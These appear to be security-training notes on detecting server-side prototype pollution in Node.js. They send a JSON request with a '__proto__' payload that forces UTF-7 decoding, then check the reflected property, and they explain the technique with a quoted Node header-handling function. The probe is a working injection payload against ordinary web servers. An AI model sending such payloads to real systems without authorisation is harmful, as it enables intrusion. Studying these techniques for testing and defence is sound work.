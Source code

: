 1. Add an arbitrary UTF-7 encoded string to a property that's reflected in a response. 
	1. For example, `foo` in UTF-7 is `+AGYAbwBv-`.
```
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
```
2. Send the request.
	1. Servers won't use UTF-7 encoding by default, so this string should appear in the response in its encoded form.
3. Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set:
```
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```

4. Repeat the first request. 
	1. If you successfully polluted the prototype, the UTF-7 string should now be decoded in the response:
```
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```

Due to a bug in Node's `_http_incoming` module:
- this works even when the request's actual `Content-Type` header includes its own `charset` attribute

To avoid overwriting properties when a request contains duplicate headers:
- the `_addHeaderLine()` function checks that 
	- no property already exists with the same key 
		- before transferring properties to an `IncomingMessage` object

```javascript
IncomingMessage.prototype._addHeaderLine = _addHeaderLine;
function _addHeaderLine(field, value, dest) {
    // ...
    } else if (dest[field] === undefined) {
        // Drop duplicates
        dest[field] = value;
    }
}
```
